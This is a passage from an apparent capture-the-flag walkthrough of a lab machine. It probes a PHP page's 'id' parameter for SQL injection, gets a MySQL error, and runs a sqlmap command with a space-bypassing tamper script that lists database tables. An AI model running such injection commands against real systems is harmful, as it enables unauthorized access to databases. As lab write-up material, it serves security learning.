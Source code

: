 ## SQLi

Clicking the link redirect us to `/bin/l33t_haxor.php`. Nothing fancy, except for a tiny bit of the source code:

```
<a href="l33t_haxor.php?id=" style="text-decoration:none"></a>
```

It seems that we can give an `id` to the page as a GET variable. I tried different values to see what happens:

```
id=0
// nothing

id=1
The hacker community may be small, but it possesses the skills that are driving the global economies of the future.

id=2
Younger hackers are hard to classify. They're probably just as diverse as the old hackers are. We're all over the map.

[…]

id=9
Hacking is a art of thinking outside the box in order to challenge the normal behaviour of application created by developers.

id=10
What is the difference between active recon and passive recon ????
```

I tried to see if it was sensible to SQLi, and got the message:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '') ORDER BY Description ASC' at line 1
```

If I use the space character, I get the message `HACKER DETECTED`. I launched `sqlmap` to progress.

```
root@kali:~# sqlmap -u 'http://172.16.130.131:33447/bin/l33t_haxor.php?id=1' -p 'id' --table --dbms=MySQL --tamper=space2comment
         _
 ___ ___| |_____ ___ ___  {1.0.7.1#dev}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 13:15:10

[…]

Database: secure_login                                                                                                                                                                                     
[4 tables]
+----------------------------------------------------+
| UB3R/strcpy.exe                                    |
| login_attempts                                     |
```

[1]: https://en.wikipedia.org/wiki/Port_knocking "Port knocking on Wikipedia"
[2]: files/img/webpage.png "Webpage"
[3]: files/img/dirbuster.png "Dirbuster"
[4]: files/img/bin.png "/bin page"
[5]: files/img/dashboard_error.png "Dashboard - error"
[6]: files/img/burp.png "burp"
[7]: files/img/dashboard_success.png "Dashboard - success"
[8]: files/img/success.jpg "Lolcat success"